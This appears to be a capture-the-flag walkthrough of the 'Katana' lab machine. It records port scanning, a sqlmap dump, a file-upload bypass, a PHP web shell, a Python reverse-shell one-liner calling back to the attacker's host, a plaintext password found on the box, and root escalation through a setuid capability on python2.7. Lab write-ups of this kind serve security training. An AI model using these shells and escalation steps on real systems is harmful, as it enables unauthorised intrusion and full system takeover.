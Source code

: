 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Katana/Untitled.png)

```bash
IP : 192.168.249.140
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.140
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 13:09 EDT
Nmap scan report for 192.168.249.140
Host is up (0.00099s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:2A:70:1F (VMware)
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Katana/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Katana/Untitled%202.png)

Now lets try sqlmap and lets dump the whole data →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%203.png)

Now after login I have to alter the image file to get the local privileges →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%204.png)

Now let’s upload an image and capture the request in burpsuite →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%205.png)

Now after forwording the request I successfully uploaded the image file as php file →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%206.png)

Now through uploading I can’t able to execute it so ,

Lets try to use other ports and in port 8080 I got file upload so lets exploit it and Lets access that file from uploading in port 8715 as the file was not loading on that same port so →

![Untitled](/Vulnhub-Files/img/Katana/Untitled%207.png)

Now lets use it →

`rshell.php` ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ cat rshell.php
<?php system($_GET['cmd']);?>
```

![Untitled](/Vulnhub-Files/img/Katana/Untitled%208.png)

Now lets try reverse shell python command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.249.128] from (UNKNOWN) [192.168.249.140] 47714
bash: cannot set terminal process group (375): Inappropriate ioctl for device                                                                    
bash: no job control in this shell                                                                                                               
www-data@katana:/opt/manager/html$ whoami                                                                                                        
whoami                                                                                                                                           
www-data                                                                                                                                         
www-data@katana:/opt/manager/html$ id                                                                                                            
id                                                                                                                                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                            
www-data@katana:/opt/manager/html$ uname -an                                                                                                     
uname -an                                                                                                                                        
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux                                                               
www-data@katana:/opt/manager/html$
```

And I got some credentials too →

```bash
www-data@katana:/home/katana$ cat .ssh_passwd
cat .ssh_passwd
katana@katana12345
www-data@katana:/home/katana$
```

Now after changing the user to katana I checked the capabilities and I found this →

```bash
katana@katana:~$ getcap -r / 2>/dev/null                                                                                                         
getcap -r / 2>/dev/null                                                                                                                          
/usr/bin/ping = cap_net_raw+ep                                                                                                                   
/usr/bin/python2.7 = cap_setuid+ep                                                                                                               
katana@katana:~$
```

Now lets use the python os command to get the root →

```bash
katana@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'; 
< 'import os; os.setuid(0); os.system("/bin/bash")';
root@katana:~# whoami
whoami
root
root@katana:~# id
id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@katana:~# cd ~
cd ~
root@katana:~# 
root@katana:~# cd /root
cd /root
root@katana:/root# ls -al
ls -al
total 44
drwx------  4 root root 4096 May 11  2020 .
drwxr-xr-x 18 root root 4096 May 11  2020 ..
-rw-------  1 root root  563 May 11  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root 4096 May 11  2020 .local
-rw-------  1 root root  155 May 11  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11  2020 root.txt
-rw-r--r--  1 root root   66 May 11  2020 .selected_editor
-rw-r--r--  1 root root  209 May 11  2020 .wget-hsts
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
root@katana:/root#
```